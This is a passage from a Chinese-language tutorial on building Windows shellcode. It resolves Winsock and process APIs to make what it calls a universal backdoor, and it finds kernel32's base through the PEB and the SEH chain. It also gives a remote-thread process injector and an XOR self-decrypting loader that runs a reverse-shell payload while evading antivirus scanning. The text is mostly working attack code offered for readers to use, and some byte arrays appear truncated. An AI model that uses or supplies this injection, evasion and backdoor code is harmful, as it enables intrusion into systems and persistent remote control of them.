    # 将字节串转换成16进制字符串
    hex_str = byte_str.hex()
    # 将16进制字符串分割成32位一组，并用0填充不足32位的部分
    hex_list = [hex_str[i:i+8].ljust(8, '0') for i in range(0, len(hex_str), 8)]
    # 用空格连接每组32位的16进制字符串
    result = ' '.join(hex_list)
    return result

if __name__ == "__main__":

    MyList = [
        "LoadLibraryA","CreatePipe","CreateProcessA","PeekNamedPipe","WriteFile",
        "ReadFile","ExitProcess","WSAStartup","socket","bind","listen","accept",
        "send","recv","Ws2_32"
    ]

    for index in range(0,len(MyList)):
        print("[*] 函数 = {:18s} | 压缩数据: {}".format(MyList[index],StringToHex(MyList[index])))
```

运行上述代码片段，读者可得到函数的十六进制形式，并以32位作为切割，不足32位的则使用0补齐，如下图所示；



首先我们以`CreatePipe`函数为例，该函数字符串压缩数据为`43726561,74655069,70650000`，而由于堆栈的后进先出特性，我们需要将其翻转过来存储，翻转过来则是`00006570,69506574,61657243`，又因为当前`GetProcAddress`函数的内存地址被存储在了`ebp+76`的位置，则通过`CALL`该地址则可实现调用函数的目的，当执行结束后则将返回值放入到EAX寄存器内，此时只需要根据不同的变量空间`mov [ebp+]`来赋值到不同变量内即可；
```C
push dword ptr 0x00006570
push dword ptr 0x69506574
push dword ptr 0x61657243
push esp
push edi 
call [ebp+76]
mov [ebp+4], eax; CreatePipe 
```
接着我们再来说一下`WSAStartup`函数，该函数显然不在`kernel32.dll`模块内，它在`Ws2_32.dll`模块内，我们需要先调用`call [ebp+80]`也就是调用`LoadLibrary`加载`ws2_32.dll`模块获取该模块的基地址，接着在通过`call [ebp+76]`调用获取该模块中`WSAStartup`函数的基址，但读者需要注意的是，`call [ebp+76]`时需要压入两个参数，其中`push edi`带指的是`ws2_32.dll`的字符串，而`push esp`才是我们的`WSAStartup`字符串，其描述为高级语言则是`GetProcAddress("Ws2_32.dll","WSAStartup")`形式；
```C
push dword ptr 0x00003233
push dword ptr 0x5f327357
push esp
call [ebp+80] ;LoadLibrary(Ws2_32) 0x00003233 5f327357
mov edi, eax 

push dword ptr 0x00007075
push dword ptr 0x74726174
push dword ptr 0x53415357
push esp
push edi
call [ebp+76]
mov [ebp+28], eax; WSAStartup 0x00007075 0x74726174 0x53415357
```

根据上述提取原则，读者可以自行提取代码片段并替换特定位置的字符串，最终可得到如下所示的一段自定位ShellCode代码片段，该片段运行后则可将我们所需要的函数内存地址枚举出来并放到临时变量中，等待我们使用；
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char *argv[])
{
    LoadLibrary("kernel32.dll");
    LoadLibrary("ws2_32.dll");

    __asm
    {
        push ebp;
        sub esp, 100;
        mov ebp, esp;

        mov eax, fs:0x30
        mov eax, [eax + 0x0c]
        mov esi, [eax + 0x1c]
        lodsd
        mov edi, [eax + 0x08]

        mov eax, [edi + 3Ch]
        mov edx, [edi + eax + 78h]
        add edx, edi
        mov ecx, [edx + 18h]
        mov ebx, [edx + 20h]
        add ebx, edi
    search :
        dec ecx
        mov esi, [ebx + ecx * 4]
        add esi, edi
    ; GetProcAddress
        mov eax, 0x50746547
        cmp[esi], eax; 'PteG'
        jne search
        mov eax, 0x41636f72
        cmp[esi + 4], eax; 'Acor'
        jne search

    ; 如果是GetProcA表示找到
        mov ebx, [edx + 24h]
        add ebx, edi
        mov cx, [ebx + ecx * 2]
        mov ebx, [edx + 1Ch]
        add ebx, edi
        mov eax, [ebx + ecx * 4]
        add eax, edi
    ; 把GetProcAddress的地址存在ebp + 76中
        mov[ebp + 76], eax

        push 0x0
        push dword ptr 0x41797261
        push dword ptr 0x7262694c
        push dword ptr 0x64616f4c
        push esp
        push edi
        call[ebp + 76]
    ; 把LoadLibraryA的地址存在ebp＋80中
        mov[ebp + 80], eax; LoadLibraryA 0x41797261 0x7262694c 0x64616f4c

        push dword ptr 0x00006570
        push dword ptr 0x69506574
        push dword ptr 0x61657243
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 4], eax; CreatePipe 0x00006570 69506574 61657243

        push dword ptr 0x00004173
        push dword ptr 0x7365636f
        push dword ptr 0x72506574
        push dword ptr 0x61657243
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 8], eax; CreateProcessA 0x4173 7365636f 72506574 61657243

        push dword ptr 0x00000065
        push dword ptr 0x70695064
        push dword ptr 0x656d614e
        push dword ptr 0x6b656550
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 12], eax; PeekNamedPipe 0x00000065 70695064 656d614e 6b656550

        push dword ptr 0x00000065
        push dword ptr 0x6c694665
        push dword ptr 0x74697257
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 16], eax; WriteFile 0x00000065 0x6c694665 0x74697257

        push dword ptr 0
        push dword ptr 0x656c6946
        push dword ptr 0x64616552
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 20], eax; ReadFile

        push dword ptr 0x00737365
        push dword ptr 0x636f7250
        push dword ptr 0x74697845
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 24], eax; ExitProcess 0x00737365 0x636f7250 0x74697845

        push dword ptr 0x00003233
        push dword ptr 0x5f327357
        push esp
        call[ebp + 80]; LoadLibrary(Ws2_32) 0x00003233 5f327357
        mov edi, eax

        push dword ptr 0x00007075
        push dword ptr 0x74726174
        push dword ptr 0x53415357
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 28], eax; WSAStartup 0x00007075 0x74726174 0x53415357

        push dword ptr 0x00007465
        push dword ptr 0x6b636f73
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 32], eax; socket 0x00007465 0x6b636f73

        push dword ptr 0
        push dword ptr 0x646e6962
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 36], eax; bind 0x646e6962

        push dword ptr 0x00006e65
        push dword ptr 0x7473696c
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 40], eax; listen 0x00006e65 0x7473696c

        push dword ptr 0x00007470
        push dword ptr 0x65636361
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 44], eax; accept 0x00007470 0x65636361

        push 0
        push dword ptr 0x646e6573
        push esp
        push edi
        call[ebp + 76]
        mov[ebp + 48], eax; send 0x646e6573

        push 0
        push dword ptr 0x76636572
        push esp
        push edi
        call [ebp + 76]
        mov [ebp + 52], eax; recv 0x76636572
    }

    system("pause");
    return 0;
}
```

读者可在特定位置下断定，并切换到汇编模式，例如读者可在`system("pause")`上面下断点，当运行后切换到自动窗口，则可看到`EAX=0x76c323a0`的内存地址，此地址正是`recv`函数的内存地址，如下图所示；



至此我们通过自定位的方式实现了对函数内存的枚举，读者可通过将本案例中的定位代码自行拷贝并替换到上一篇文章中，此时我们就实现了一个完整的`ShellCode`通用后门程序，该程序可在任意`Windows`系统下被正确执行；

#### 1.7.3 运用SEH链获得Kernel32基址

SEH (Structured Exception Handling) 异常处理链是一种数据结构，用于维护和跟踪在程序运行时发生的异常的处理程序的调用关系。当程序在执行期间发生异常时，SEH 异常处理链会按照一定的顺序遍历链表中的异常处理程序，直到找到一个能够处理该异常的程序为止。

在SEH链表中存在一个默认异常处理函数`UnhandledExceptionFilter`当程序在执行期间遇到未处理的异常时，操作系统会调用`UnhandledExceptionFilter`函数来捕获该异常，并且该函数会返回一个特定的值，告诉操作系统如何处理该异常。

UnhandledExceptionFilter 指针是在异常链的最后，它的上一个值是指向下一个处理点的地址。因为后面没有异常处理点了，所以会被表示为0xFFFFFFFF



有了这个原理那么我们就可以搜索异常处理链表，得到`UnhandledExceptionFilter`的内存地址，首先我们通过`mov esi,fs:0`得到线程的`TLS`也就是线程本地存储的指针，然后通过循环的方式向下遍历，直到遍历到指针的最后，此时也就得到了`UnhandledExceptionFilter`的地址，如下代码片段则可输出该地址；
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char *argv[])
{
    LoadLibrary("kernel32.dll");

    DWORD address = 0;

    __asm
    {
        mov esi, fs:0;
        lodsd;

    GetExeceptionFilter:
        cmp[eax],0xffffffff
        je GetedExeceptionFilter     ; 到最后
        mov eax, [eax]               ; 否则继续遍历
        jmp GetExeceptionFilter

    GetedExeceptionFilter:
        mov eax, [eax + 4]
        mov address,eax
    }

    printf("UnhandledExceptionFilter = %x \n", address);

    system("pause");
    return 0;
}
```

执行如上汇编指令，则可获取到`UnhandledExceptionFilter`的内存地址，此处输出结果如下图所示；



此时我们已经得到了`UnhandledExceptionFilter`函数的内存地址，由于该函数是`Kernel32.dll`里面的导出函数，所以我们就从`UnhandledExceptionFilter`函数的地址往上找，找到开头的地方，自然就是`Kerner32`的基地址了。

此外由于`Kerner32`模块也是可执行文件，其开始标志同样是`MZ`和`PE`，而且因为系统分配某个空间时，总要从一个分配粒度的边界开始，在32位下，这个粒度是64KB。所以我们搜索时，可以按照`64kb`递减往低地址搜索，当到了`MZ`和`PE`标志时，也就找到了`Kernel32`的基地址。实现代码如下：
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char *argv[])
{
    LoadLibrary("kernel32.dll");

    DWORD address = 0;

    __asm
    {
        mov esi, fs:0;
        lodsd;

    GetExeceptionFilter:
        cmp[eax],0xffffffff
        je GetedExeceptionFilter     ; 到最后
        mov eax, [eax]               ; 否则继续遍历
        jmp GetExeceptionFilter

    GetedExeceptionFilter:
        mov eax, [eax + 4]

    FindMZ :
           and eax, 0xffff0000        ; 64k对齐特征
           cmp word ptr[eax], 'ZM'    ; 判断是不是MZ格式
           jne MoveUp
           mov ecx, [eax + 0x3c]
           add ecx, eax
           cmp word ptr[ecx], 'EP'     ; 判断是不是PE
           je Found                    ; 找到了
    MoveUp :
            dec eax                    ; 指向下一个界起始地址
            jmp FindMZ
    Found :
            mov address, eax
        nop
    }

    printf("Kernel32 = %x \n", address);

    system("pause");
    return 0;
}
```

编译并运行上述汇编代码，则可以输出`kernel32.dll`模块的基地址，输出效果如下所示；




### 1.8 运用C编写ShellCode代码

在笔者前几篇文章中，我们使用汇编语言并通过自定位的方法实现了一个简单的`MessageBox`弹窗功能，但由于汇编语言过于繁琐在编写效率上不仅要考验开发者的底层功底，还需要写出更多的指令集，这对于普通人来说是非常困难的，当然除了通过汇编来实现`ShellCode`的编写以外，使用C同样可以实现编写，在多数情况下读者可以直接使用C开发，只有某些环境下对ShellCode条件有极为苛刻的长度限制时才会考虑使用汇编。

相较于汇编语言，使用C编写`Shellcode`可以更加方便、高效，特别是对于需要大量计算的操作。在编写Shellcode时，读者需要注意以下几点：

 - 1.使用纯C语言进行编写：在编写Shellcode时，需要避免使用C++标准库或其他外部依赖库，因为这些库往往会增加代码的长度和复杂度。
 - 2.关闭编译器优化：在编写Shellcode时，需要关闭编译器的优化功能，因为优化可能会改变代码的执行顺序，导致Shellcode无法正常工作。
 - 3.避免使用全局变量和静态变量：在Shellcode中，全局变量和静态变量往往会导致代码长度过长，并且这些变量的地址也可能与Shellcode中其他代码的地址产生冲突。
 - 4.使用裸指针和裸内存管理：为了减小Shellcode的长度和复杂度，需要使用裸指针和裸内存管理，这可以减少代码中不必要的辅助函数调用。
 - 5.不能使用全局变量，或者用static修饰的变量，在Shellcode中要自定义入口函数，所有的字符串都要用字符串数组的方式代替。

首先读者应自行新建一个开发项目，并将编译模式调整为`Release`模式，这是因为`Debug`模式下的代码在转换成汇编后首先都是一个`JMP`指令，然后再跳到我们的功能代码处，但`JMP`指令是地址相关的 ，所以在转换成`ShellCode`时就会出错。此外在读者新建项目文件时请最好使用`*.c`结尾而不要使用`*.cpp`结尾。

当读者新建文件以后，接下来请修改配置属性，将运行库修改为`多线程(MT)`并关闭安全检查机制，如下图所示；



接着在连接器部分，新增一个`EntryMain`入口点，默认的`Main`入口点显然时不能使用的，如下图所示；



与前几章中的内容原理一致，首先我们需要得到`kernel32.dll`模块的基址，这段代码我们依然采用汇编实现，这里需要注意`__declspec(naked)`的含义，该声明是微软编译器提供的一个扩展，它用于指示编译器不要为函数自动生成函数头和尾，并将函数转化为裸函数。这种函数不会自动生成函数前缀和后缀的代码，也不会创建任何本地变量或保护寄存器。

在使用`__declspec(naked)`声明的函数中，开发者需要自己手动管理堆栈和调用函数的传递参数，然后在函数体中使用汇编指令实现所需的功能。使用`__declspec(naked)`声明的函数可以有效地减小生成的代码大小，因为不需要在函数前后添加额外的代码，而且可以精确控制函数内部的代码。

> 注意：使用`__declspec(naked)`声明的函数需要开发者对汇编语言有一定的了解，否则容易出现错误。在使用时，需要非常小心，确保在函数内部正确地管理堆栈和传递参数，以确保函数能够正常工作。

```C
// ----------------------------------------------
// 32位获取模块基址
// ----------------------------------------------
__declspec(naked) DWORD getKernel32()
{
    __asm
    {
        mov eax, fs: [30h]
        mov eax, [eax + 0ch]
        mov eax, [eax + 14h]
        mov eax, [eax]
        mov eax, [eax]
        mov eax, [eax + 10h]
        ret
    }
}

// ----------------------------------------------
// 64位获取模块基址
// ----------------------------------------------
/*
.code
getKernel32 proc
    mov rax,gs:[60h]
    mov rax,[rax+18h]
    mov rax,[rax+30h]
    mov rax,[rax]
    mov rax,[rax]
    mov rax,[rax+10h]
    ret
getKernel32 endp
end
*/
```
当我们能够拿到`kernel32.dll`的模块基址时，则接下来就是通过该基址得到Kernel32的模块导出表，并获取该导出表内的`GetProcessAddress`函数的基址，至于为什么需要这么做，在读者前面的文章中有详细的分析，这里就不再重复叙述。
```C
// ----------------------------------------------
// 32位取函数地址
// ----------------------------------------------
FARPROC getProcAddress(HMODULE hModuleBase)
{
    PIMAGE_DOS_HEADER lpDosHeader = (PIMAGE_DOS_HEADER)hModuleBase;
    PIMAGE_NT_HEADERS32 lpNtHeader = (PIMAGE_NT_HEADERS)((DWORD)hModuleBase + lpDosHeader->e_lfanew);
    if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size)
    {
        return NULL;
    }
    if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress)
    {
        return NULL;
    }

    PIMAGE_EXPORT_DIRECTORY lpExports = (PIMAGE_EXPORT_DIRECTORY)((DWORD)hModuleBase + (DWORD)lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    PDWORD lpdwFunName = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNames);
    PWORD lpword = (PWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNameOrdinals);
    PDWORD lpdwFunAddr = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfFunctions);

    DWORD dwLoop = 0;
    FARPROC pRet = NULL;
    for (; dwLoop <= lpExports->NumberOfNames - 1; dwLoop++)
    {
        char* pFunName = (char*)(lpdwFunName[dwLoop] + (DWORD)hModuleBase);

        if (pFunName[0] == 'G' &&
            pFunName[1] == 'e' &&
            pFunName[2] == 't' &&
            pFunName[3] == 'P' &&
            pFunName[4] == 'r' &&
            pFunName[5] == 'o' &&
            pFunName[6] == 'c' &&
            pFunName[7] == 'A' &&
            pFunName[8] == 'd' &&
            pFunName[9] == 'd' &&
            pFunName[10] == 'r' &&
            pFunName[11] == 'e' &&
            pFunName[12] == 's' &&
            pFunName[13] == 's')
        {
            pRet = (FARPROC)(lpdwFunAddr[lpword[dwLoop]] + (DWORD)hModuleBase);
            break;
        }
    }
    return pRet;
}

// ----------------------------------------------
// 64位取函数地址
// ----------------------------------------------
/*
FARPROC getProcAddress(HMODULE hModuleBase)
{
    PIMAGE_DOS_HEADER lpDosHeader = (PIMAGE_DOS_HEADER)hModuleBase;
    PIMAGE_NT_HEADERS64 lpNtHeader = (PIMAGE_NT_HEADERS64)((ULONG64)hModuleBase + lpDosHeader->e_lfanew);
    if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size)
    {
        return NULL;
    }
    if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress)
    {
        return NULL;
    }
    PIMAGE_EXPORT_DIRECTORY lpExports = (PIMAGE_EXPORT_DIRECTORY)((ULONG64)hModuleBase + (ULONG64)lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    PDWORD lpdwFunName = (PDWORD)((ULONG64)hModuleBase + (ULONG64)lpExports->AddressOfNames);
    PWORD lpword = (PWORD)((ULONG64)hModuleBase + (ULONG64)lpExports->AddressOfNameOrdinals);
    PDWORD  lpdwFunAddr = (PDWORD)((ULONG64)hModuleBase + (ULONG64)lpExports->AddressOfFunctions);

    DWORD dwLoop = 0;
    FARPROC pRet = NULL;
    for (; dwLoop <= lpExports->NumberOfNames - 1; dwLoop++)
    {
        char* pFunName = (char*)(lpdwFunName[dwLoop] + (ULONG64)hModuleBase);

        if (pFunName[0] == 'G' &&
            pFunName[1] == 'e' &&
            pFunName[2] == 't' &&
            pFunName[3] == 'P' &&
            pFunName[4] == 'r' &&
            pFunName[5] == 'o' &&
            pFunName[6] == 'c' &&
            pFunName[7] == 'A' &&
            pFunName[8] == 'd' &&
            pFunName[9] == 'd' &&
            pFunName[10] == 'r' &&
            pFunName[11] == 'e' &&
            pFunName[12] == 's' &&
            pFunName[13] == 's')
        {
            pRet = (FARPROC)(lpdwFunAddr[lpword[dwLoop]] + (ULONG64)hModuleBase);
            break;
        }
    }
    return pRet;
}
*/
```

接着我们需要编写主代码逻辑，主代码逻辑中使用`GetProcAddress`和`LoadLibraryW`来加载`user32.dll`并调用其中的`MessageBoxW`函数弹出一个消息框的示例。

下面是代码的详细实现流程：

 - 1.定义函数指针类型FN_GetProcAddress，用于存储GetProcAddress函数的地址，该函数用于在加载的DLL中查找导出函数的地址。
 - 2.通过getProcAddress函数获取kernel32.dll中的GetProcAddress函数地址，并将其转换为FN_GetProcAddress类型的函数指针fn_GetProcAddress。
 - 3.定义函数指针类型FN_LoadLibraryW，用于存储LoadLibraryW函数的地址，该函数用于加载指定的DLL文件。
 - 4.定义名为xyLoadLibraryW的字符数组，存储字符串"LoadLibraryW"。
 - 5.使用fn_GetProcAddress函数指针获取kernel32.dll中的LoadLibraryW函数的地址，并将其转换为FN_LoadLibraryW类型的函数指针fn_LoadLibraryW。
 - 6.定义函数指针类型FN_MessageBoxW，用于存储MessageBoxW函数的地址，该函数用于弹出消息框。
 - 7.定义名为xy_MessageBoxW的字符数组，存储字符串"MessageBoxW"。
 - 8.定义名为xy_user32的字符数组，存储字符串"user32.dll"。
 - 9.使用fn_LoadLibraryW函数指针加载user32.dll，并使用fn_GetProcAddress函数指针获取其中的MessageBoxW函数地址，并将其转换为FN_MessageBoxW类型的函数指针fn_MessageBoxW。
 - 10.定义名为MsgBox和Title的wchar_t数组，用于存储消息框的文本内容和标题。
 - 11.使用fn_MessageBoxW函数指针弹出一个消息框，显示MsgBox中的文本内容，并使用Title中的文本作为标题。

```C
#include <Windows.h>

FARPROC getProcAddress(HMODULE hModuleBase);
DWORD getKernel32();
// extern "C" PVOID64  getKernel32();

// ----------------------------------------------
// 32位主函数
// ----------------------------------------------
int EntryMain()
{
    // 定义指针，用于存储GetProcAddress入口地址
    typedef FARPROC(WINAPI* FN_GetProcAddress)(
        _In_ HMODULE hModule,
        _In_ LPCSTR lpProcName
        );

    FN_GetProcAddress fn_GetProcAddress = (FN_GetProcAddress)getProcAddress((HMODULE)getKernel32());

    // 定义指针，用于存储LoadLibraryW入口地址
    typedef HMODULE(WINAPI* FN_LoadLibraryW)(
        _In_ LPCWSTR lpLibFileName
        );
    char xyLoadLibraryW[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', 0 };
    FN_LoadLibraryW fn_LoadLibraryW = (FN_LoadLibraryW)fn_GetProcAddress((HMODULE)getKernel32(), xyLoadLibraryW);

    // 定义指针，用于存储MessageBoxW入口地址
    typedef int (WINAPI* FN_MessageBoxW)(
        _In_opt_ HWND hWnd,
        _In_opt_ LPCWSTR lpText,
        _In_opt_ LPCWSTR lpCaption,
        _In_ UINT uType);
    wchar_t xy_user32[] = { 'u', 's', 'e', 'r', '3', '2', '.', 'd', 'l', 'l', 0 };
    char xy_MessageBoxW[] = { 'M', 'e', 's', 's', 'a', 'g', 'e', 'B', 'o', 'x', 'W', 0 };
    FN_MessageBoxW fn_MessageBoxW = (FN_MessageBoxW)fn_GetProcAddress(fn_LoadLibraryW(xy_user32), xy_MessageBoxW);

    // 此处用于设置MessageBoxW弹窗的文本内容
    wchar_t MsgBox[] = { 'H', 'e', 'l', 'l', 'o', 'L', 'y', 'S', 'h','a','r','k', 0 };
    wchar_t Title[] = { 'T', 'E', 'S', 'T', 0 };
    fn_MessageBoxW(NULL, MsgBox, Title, NULL);

    return 0;
}

// ----------------------------------------------
// 64位主函数
// ----------------------------------------------
/*
int EntryMain()
{
    typedef FARPROC(WINAPI* FN_GetProcAddress)(
        _In_ HMODULE hModule,
        _In_ LPCSTR lpProcName
        );
    FN_GetProcAddress fn_GetProcAddress = (FN_GetProcAddress)getProcAddress((HMODULE)getKernel32());

    typedef HMODULE(WINAPI* FN_LoadLibraryW)(
        _In_ LPCWSTR lpLibFileName
        );
    char xyLoadLibraryW[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', 0 };
    FN_LoadLibraryW fn_LoadLibraryW = (FN_LoadLibraryW)fn_GetProcAddress((HMODULE)getKernel32(), xyLoadLibraryW);

    typedef int (WINAPI* FN_MessageBoxW)(
        _In_opt_ HWND hWnd,
        _In_opt_ LPCWSTR lpText,
        _In_opt_ LPCWSTR lpCaption,
        _In_ UINT uType);
    wchar_t xy_user32[] = { 'u', 's', 'e', 'r', '3', '2', '.', 'd', 'l', 'l', 0 };
    char xy_MessageBoxW[] = { 'M', 'e', 's', 's', 'a', 'g', 'e', 'B', 'o', 'x', 'W', 0 };
    FN_MessageBoxW fn_MessageBoxW = (FN_MessageBoxW)fn_GetProcAddress(fn_LoadLibraryW(xy_user32), xy_MessageBoxW);

    wchar_t xy_Hello[] = { 'H', 'e', 'l', 'l', 'o', 'L', 'y', 'S', 'h', 'a', 'r', 'k', 0 };
    wchar_t xy_tip[] = { 'T', 'E', 'S', 'T', 0 };
    fn_MessageBoxW(NULL, xy_Hello, xy_tip, NULL);

    return 0;
}
*/
```

至此读者需要手动编译上述代码，当编译通过之后，请打开`WinHex`工具，并定位到`ShellCode`的开头位置，如下图所示则是我们需要提取的指令集；



选中这片区域，并右键点击编辑按钮，找到复制，C源码格式，此时读者即可得到一个完整的源代码格式；



至此读者只需要一个注入器用于测试代码的完善性，此处是简单实现的一个注入器，代码中`shellcode`是我们上图中提取出来的片段，读者需要修改`targetPid`为任意一个32位应用程序，并运行注入即可；
```C
#include <windows.h>
#include <iostream>

using namespace std;

unsigned char shellcode[450] =
{
    0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x5C, 0x53, 0x56, 0x57, 0xE8, 0xD2, 0x00, 0x00, 0x00, 0x8B, 0xC8,
    0xE8, 0xEB, 0x00, 0x00, 0x00, 0x8B, 0xF0, 0xC7, 0x45, 0xD8, 0x4C, 0x6F, 0x61, 0x64, 0x8D, 0x45,
    0xD8, 0xC7, 0x45, 0xDC, 0x4C, 0x69, 0x62, 0x72, 0x50, 0xC7, 0x45, 0xE0, 0x61, 0x72, 0x79, 0x57,
    0xC6, 0x45, 0xE4, 0x00, 0xE8, 0xA7, 0x00, 0x00, 0x00, 0x50, 0xFF, 0xD6, 0x33, 0xC9, 0xC7, 0x45,
    0xC0, 0x75, 0x00, 0x73, 0x00, 0x66, 0x89, 0x4D, 0xD4, 0x8D, 0x4D, 0xE8, 0x51, 0x8D, 0x4D, 0xC0,
    0x5D, 0xC3
};

int main(int argc, char *argv[])
{
    DWORD targetPid = 2816;

    HANDLE h_target = NULL;
    LPVOID p_base = NULL;
    HANDLE h_thread = NULL;

    h_target = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
    if (h_target == NULL)
    {
        goto main_end;
    }

    p_base = VirtualAllocEx(h_target, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (p_base == NULL)
    {

        goto main_end;
    }

    if (!WriteProcessMemory(h_target, p_base, (LPVOID)shellcode, sizeof(shellcode), NULL)) {
        goto main_end;
    }

    h_thread = CreateRemoteThread(h_target, 0, 0, (LPTHREAD_START_ROUTINE)p_base, NULL, 0, NULL);
    if (h_thread == NULL)
    {
        goto main_end;
    }

main_end:
    if (h_target)
        CloseHandle(h_target);
    if (h_thread)
        CloseHandle(h_thread);
    getchar();
    return 0;
}
```

如果一切顺利，则读者可看到这段ShellCode已经在特定进程内实现运行了，并输出了如下图所示的弹窗提示；



### 1.9 动态解密ShellCode反弹

动态解密执行技术可以对抗杀软的磁盘特征查杀。其原理是将程序代码段中的代码进行加密，然后将加密后的代码回写到原始位置。当程序运行时，将动态解密加密代码，并将解密后的代码回写到原始位置，从而实现内存加载。这种技术可以有效地规避杀软的特征码查杀，因为加密后的代码通常不会被标记为恶意代码。

利用动态解密执行技术可以实现免杀。当程序中使用了敏感的函数时，存在被杀的风险。通过将代码段中的代码进行加密，在需要时直接在内存中解密，可以避免被杀软检测到硬盘文件的特征，从而规避杀软针对硬盘特征的查杀手法。

在学习本章内容之前需要先了解`VirtualProtect`函数，该函数可以动态调整特定一段内存区域的读写执行属性，该函数原型如下所示；
```C
BOOL WINAPI VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```
其中，参数的含义如下：

 - lpAddress：欲更改保护属性的虚拟内存区域的起始地址。
 - dwSize：欲更改保护属性的虚拟内存区域的大小。
 - flNewProtect：新的保护属性。
 - lpflOldProtect：指向变量的指针，用于存储原始保护属性。

有了此关键函数的支持，那么实现动态解密执行将变得容易，一般而言在设置权限之前需要通过`VirtualQuery`来查询一下当前权限并将查询结果保存起来，该步骤主要用于在执行解密后来将内存恢复到原始位置，接着通过调用`VirtualProtect`函数，将该页的保护属性改为`PAGE_READWRITE`，以便可以对该页进行读写操作，解密函数很容易被实现。
```C
void Decrypt(DWORD* pData, DWORD Size, DWORD value)
{
    // 保存查询结果
    MEMORY_BASIC_INFORMATION mbi_thunk;
    
    // 查询页信息
    VirtualQuery(pData, &mbi_thunk, sizeof(MEMORY_BASIC_INFORMATION));
    
    // 改变页保护属性为读写
    VirtualProtect(mbi_thunk.BaseAddress, mbi_thunk.RegionSize, PAGE_READWRITE, &mbi_thunk.Protect);

    // 计算出对数据共需要异或的次数
    Size = Size / 0x4;
    
    // 解密begindecrypt与enddecrypt标签处的数据
    while (Size--)
    {
        *pData = (*pData) ^ value;
        pData++;
    }

    // 恢复页的原保护属性
    DWORD dwOldProtect;
    VirtualProtect(mbi_thunk.BaseAddress, mbi_thunk.RegionSize, mbi_thunk.Protect, &dwOldProtect);
}
```

如上所示该函数接受三个参数：pData 是待解密数据的指针，Size 是数据块的大小（以字节为单位），value 是用来异或解密数据的值。

首先，该函数调用了`VirtualQuery`函数来获取`pData`所在虚拟内存页的信息，然后通过调用`VirtualProtect`函数，将该页的保护属性改为`PAGE_READWRITE`，以便可以对该页进行读写操作。接下来该函数计算需要对多少个`DWORD`值进行异或解密。由于每个`DWORD`有`4`个字节，所以将`Size`除以`0x4`就可以得到需要异或解密的`DWORD`数量。

最后，该函数对每个`DWORD`值进行异或解密操作，并将解密后的值写回到内存中。解密操作使用了按位异或`（^）`运算符，即将每个`DWORD`值中的每个字节与`value`中对应的字节进行异或操作。由于`value`是一个`DWORD `值，因此在对所有字节进行异或操作时`value`的`4`个字节会循环使用。最后再次调用`VirtualProtect`函数，将该页的保护属性改回原来的状态。

主函数中首先读者需要自行生成一段32位的反弹ShellCode后门，并将该区域替换至`buf`所处位置处，并编译这段代码；

> 小提示：读者在编译时，请关闭DEP，ASLR，地址随机化等保护，否则VA不固定，无法确定位置。

```C
#pragma comment(linker, "/section:.data,RWE")

typedef void(__stdcall *CODE) ();

int main(int argc, char* argv[])
{
    DWORD AddressA, AddressB, Size, key;
    DWORD *ptr;
    TCHAR cCode[30] = { 0 };

    __asm mov AddressA, offset BeginOEP
    __asm mov AddressB, offset EndOEP

    Size = AddressB - AddressA;
    ptr = (DWORD*)AddressA;

    // 设置加密密钥
    _tcscpy(cCode, L"lyshark");

    key = 1;
    for (unsigned int i = 0; i< lstrlen(cCode); i++)
    {
        key = key * 6 + cCode[i];
    }

    // 执行解密函数
    Decrypt(ptr, Size, key);

BeginOEP:
    __asm inc eax  // 在十六进制工具中对应0x40
    __asm dec eax  // 在十六进制工具中对应0x48

    // MessageBoxA(0, "hello lyshark", 0, 0);

    unsigned char buf[] =
        "\xba\x1a\x77\xba\x2b\xd9\xee\xd9\x74\x24\xf4\x5e\x29\xc9"
        "\xb1\x59\x31\x56\x14\x03\x56\x14\x83\xee\xfc\xf8\x82\x46"
        "\xc3\x73\x6c\xb7\x14\xeb\xe4\x52\x25\x39\x92\x17\x14\x8d"
        "\xd0\x7a\x95\x66\xb4\x6e\x94\x87\x36\x38\x9c\x51\xc2\x34"
        "\x09\xac\x14\x14\x75\xaf\xe8\x67\xaa\x0f\xd0\xa7\xbf\x4e"
        "\xdb\xac\xa6";

    PVOID pFunction = NULL;

    // 分配空间
    pFunction = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 拷贝恶意代码
    memcpy(pFunction, buf, sizeof(buf));

    // 执行代码
    CODE StartShell = (CODE)pFunction;
    StartShell();

EndOEP:
    __asm inc eax
    __asm dec eax

    return 0;
}
```

